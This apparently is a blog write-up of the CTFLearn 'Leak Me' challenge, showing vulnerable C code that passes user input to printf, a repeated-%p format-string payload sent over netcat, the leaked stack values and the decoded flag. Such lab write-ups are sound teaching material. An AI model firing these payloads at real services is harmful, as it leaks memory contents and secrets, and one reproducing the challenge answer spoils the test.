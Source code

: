 ```yaml
---
title: "CTFLearn Leak Me"
date: 2023-08-22T16:00:42-07:00
categories: ["CTF", "blog"]
---
```


A problem to exploit the stack with format string attack.

- [Problem link](https://ctflearn.com/challenge/1221)

When I access the program, it
- prompts a question
- and it takes user input
- then prints the input

```
$ nc rivit.dev 10003
What is your favorite format tag? some_text
some_text
```

The problem comes with the program source code and its binary.

```
#include <stdlib.h>
#include <stdio.h>

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    char flag[64], buffer[64];

    FILE *f = fopen("./flag.txt", "rt");
    if (f == NULL) {
        puts("No flag.txt found, contact an admin");
        return 1;
    }

    fgets(flag, 64, f);
    fclose(f);

    printf("What is your favorite format tag? ");
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);

    return 0;
}
```

Since it takes user input and print, it might be a problem for buffer overflow.
Let's examine their addresses with Cutter.

I found the flag is read and stored at `0x55f825d31480` and the variable from
user input is stored at `0x7ffe188c5990`. In addition, the input size is
regulated, I cannot use buffer overflow to print it.

Let's go back to the source code. There is something unfamiliar to me in C,
`printf(buffer);`. What we usually do is `printf("%s\n", buffer);` or something
similar. Is there any exploit?

After a research, I found [Format string
attack](https://owasp.org/www-community/attacks/Format_string_attack). Let's try
with `%p`, so hopefully we can get something useful from the stack.

```
$ nc rivit.dev 10003
What is your favorite format tag? %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x7f6f45047b23 0xfbad208b 0x7f6f44f42992 (nil) (nil) (nil) 0x55b5639842a0 0x6e7261656c465443 0x5f336b316c5f317b 0x745f74346d723066 0x7d3030745f356734 0xa 0x1 0x55b5638c3040 0x7f6f4507785c 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
```

The interesting part is `0x6e7261656c465443 0x5f336b316c5f317b
0x745f74346d723066 0x7d3030745f356734`. I obtained
`nraelFTC_3k1l_1{t_t4mr0f}00t_5g4` via converting into ASCII. It has both
brackets and anagram of CTF. Let's sort the string by block.
`}00t_5g4t_t4mr0f_3k1l_1{nraelFTC` and its reversed string
`CTFlearn{1_l1k3_f0rm4t_t4g5_t00}`.

## Takeaways

I spent 4 hours of reverse engineering to make stack overflow happen with both
disassembly and decompiler output. However, after visiting to the original C
source code, I found something wrong in a few seconds. Soon I could find the
well-known vulnerability on OWASP.

- I should be more carefully walk through the original C source code.
- When seeing a user input directly as output, check for potential format string
  attack if possible.
